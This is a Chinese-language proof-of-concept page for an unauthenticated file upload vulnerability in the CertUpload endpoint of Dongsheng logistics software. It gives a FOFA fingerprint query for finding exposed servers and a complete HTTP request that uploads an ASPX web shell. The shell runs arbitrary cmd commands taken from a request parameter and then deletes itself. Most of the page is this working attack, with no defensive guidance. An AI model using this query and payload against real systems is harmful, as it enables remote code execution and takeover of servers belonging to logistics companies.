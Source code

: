 # 东胜物流软件CertUpload文件上传漏洞

东胜物流软件是青岛东胜伟业软件有限公司一款集订单管理、仓库管理、运输管理等多种功能于一体的物流管理软件。由于东胜物流软件  CertUpload 接口处未对用户上传的文件进行合理的判断和过滤，导致存在文件上传漏洞，未经身份验证远程攻击者可利用该漏洞上传任意脚本文件，执行恶意代码，写入WebShell,进一步控制服务器权限。

## fofa

```javascript
body="FeeCodes/CompanysAdapter.aspx" || body="dhtmlxcombo_whp.js" || body="dongshengsoft" || body="theme/dhtmlxcombo.css"
```

## poc

```javascript
POST /MsWlTruck/CertUpload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTqkdY1lCvbvpmown

------WebKitFormBoundaryaKljzbg49Mq4ggLz
Content-Disposition: form-data; name="file"; filename="rce.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundaryaKljzbg49Mq4ggLz
Content-Disposition: form-data; name="TruckNo";

1
------WebKitFormBoundaryaKljzbg49Mq4ggLz
Content-Disposition: form-data; name="Cert_Type";

1
------WebKitFormBoundaryaKljzbg49Mq4ggLz--
```

![image-20241122152041797](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221520864.png)